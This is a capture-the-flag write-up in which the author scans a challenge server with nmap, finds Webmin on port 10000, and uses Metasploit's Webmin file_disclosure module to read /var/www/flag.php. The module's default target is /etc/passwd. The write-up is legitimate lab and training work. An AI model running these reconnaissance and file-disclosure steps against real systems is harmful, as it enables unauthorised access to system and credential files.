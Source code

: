 Webmin - Exploit 2
========================
## Challenge:

> **Description:** This challenge had us connecting to a server where the following information was shown. A flag.php file and a webmin folder containing a config file.
>
> **Goal:** Find the flag for 2000 Points.

## Solution:

Solving this problem was pretty fun. Though the taunt of having flag.php right in front of me was painful. First off I began by looking through the provided files. It was no surprise that flag.php wasn't going to contain the viewable flag. So, onto the next file, webmin. This folder contained a basic webmin config file that provided no real useful information either. So what do. I know that there is a flag.php file somewhere on the server that most likely contains the flag, and that the server is running webmin.

Armed only with that information I figured something else had to be on the server. Bring in good old nmap.
```
nmap -Pn 54.221.X.X

Port      State Service
22/tcp    open  ssh
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt
```

Wooh! Whats that!? snet-sensor-mgmt running on port 10000? Interesting. After giving that a go I found myself at this page [Link to image here]. I started broswing the googles for any default accounts or passwords but I soon found there were none. Better yet the server implemented a timeout mechanism to stop brute forcing.

Well. There _has_ to be another way. Are there any exploits for webmin?? Ah lookie [here](http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure), this looks interesting. Now given our knowledge of flag.php, our best bet is that it resides in /var/www/. So lets fire it up.
```
msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

Name     Current Setting    Required  Description
----     ---------------    --------  -----------
DIR      /unauthenticated   yes       Webmin directory path
Proxies                     no        Use a proxy chain
RHOST    54.221.*.*         yes       The target address
RPATH    /etc/passwd        yes       The file to download
RPORT    10000              yes       The target port
VHOST                       no        HTTP server virtual host

set RPATH /var/www/flag.php
```

Boom! We have a flag!

**NCL-OSSL-1337**
